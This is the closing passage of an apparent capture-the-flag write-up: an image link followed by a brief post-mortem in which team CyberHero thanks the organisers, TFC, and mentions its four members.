

## Post Mortem
Thanks TFC for awesome challenge for another year. this challenge involved a four team members of CyberHero. We would love to see more challenges like these in next CTF.